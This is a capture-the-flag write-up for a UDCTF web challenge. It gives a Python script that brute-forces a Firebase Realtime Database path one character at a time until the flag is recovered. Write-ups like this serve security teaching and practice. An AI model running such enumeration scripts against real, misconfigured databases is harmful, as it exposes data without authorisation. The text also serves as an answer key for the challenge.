 # Best Bathroom on Campus 

## Description

> <img src="./bestbathroom.png" alt="Markdown Monster icon"   style=" width: 80%; diplay: box;"/>
> 
> https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json


## Write-Up

Seems a pretty straight forward challenge, where from the picture we can deduce that we will be bruteforcing the `.json` file name to get the flag, let's script this up:

```py
import requests
import string

# URL of the API or website you want to send a request to

readable_chars = string.printable.replace("/", "")

base_url = "https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{"

try:

    while True:
        for i in readable_chars:
            url = base_url + i + ".json"

            # Send a GET request to the URL
            response = requests.get(url)

            # Check if the request was successful (status code 200)
            if response.status_code == 200:
                # Capture and display the content of the response
                data = response.text
                if data == "true":
                    print(url)
                    base_url += i
                    # Let it finish the list, apperantly it's much faster then repeating
                    # break
                else:
                    print("Pass: ", i)
            else:
                print(f"Request failed with status code: {response.status_code}")
except requests.exceptions.RequestException as e:
    # Handle request exceptions (e.g., network issues, URL not found, etc.)
    print(f"Request error: {e}")
```
